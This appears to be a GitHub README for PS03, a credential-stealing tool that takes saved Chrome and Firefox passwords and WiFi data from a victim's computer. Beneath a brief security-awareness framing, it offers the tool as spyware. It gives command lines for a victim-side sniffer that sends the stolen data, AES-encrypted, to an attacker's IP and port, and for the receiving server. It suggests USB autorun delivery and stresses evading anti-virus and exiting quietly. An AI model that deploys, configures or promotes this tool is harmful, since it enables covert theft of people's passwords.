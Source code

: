 # PS03

PS03 is a project which goal is to set more focus on security. Stop saving your passwords in chrome, firefox, don't automaticly connect to WiFi's and so on. This project shows how easy an attacker can get all your passwords ever saved, even without any anti-virus complaining. 

  

![ServersideScreenshot](https://github.com/benlarsendk/PS03/blob/master/screenshot.PNG "Screenshot of serverside")
The above shown screenshot, is the output as seen from serverside.

### Usage
The software is made as both the receiving end as well as the victimside end. It's therefore required to configure the program at startup, such that it does as expected. This software could be used on a USB-stick with autorun capabilities to extract passwordsinformation from a victim. It is also possible to use it as spyware and let the program send the data (AES-encrypted) back to a host.

To configure the program as a sniffer that transmits to a server:
```sh
$ PS03.exe -t -i [ip] -p [port]
```

To configure the program as a serverside receiver:
```sh
$ PS03.exe -r -p [port]
```

If wanted, the program can function without any network communication. To configure the program to run locally
```sh
$ PS03.exe -v
```
The -v (verbose) command can also be used alongside networking to generate report and show output on victimside.
### Credits

PS03 uses code and inspiration from the following authors:

* [DPAPI] - For decrypting Chrome passwords
* [Mark Brittingham] - For simple AES encryption of data
* [SQLite] - For reading the Google Chrome Login Data file
* [3V1L] - For supplying some of the code for decrypting firefox passwords and username.
* [Command Line Parser Library] - for parsing input parameters


### Development

Want to contribute? Please do so. 
If you find an issue, please create it as an issue, and if you want you can fix it and make a pullrequest.

### Version

3.2.0

**CHANGELOG**
3.2.0
- Merged all solutions in to a single solution and added commandline parameters

3.1.0
- PS03 can now handle Firefox user profiles. Tested on Firefox version 43.0.1.
- PS03 Generates a report file with most common passwords. This is still in pre-alpha


3.0.2
- Fixed crashes when victim doesn't use chrome or have WLAN
- Fixed send timeout at victimside to exit quietly instead of crash
- General cleanup

   [DPAPI]: <http://www.obviex.com/samples/dpapi.aspx>
   [Mark Brittingham]: <http://stackoverflow.com/questions/165808/simple-two-way-encryption-for-c-sharp>
   [SQLite]: <https://www.sqlite.org/>
   [3V1L]: <http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/>
   [Command Line Parser Library]: <https://commandline.codeplex.com/>
   

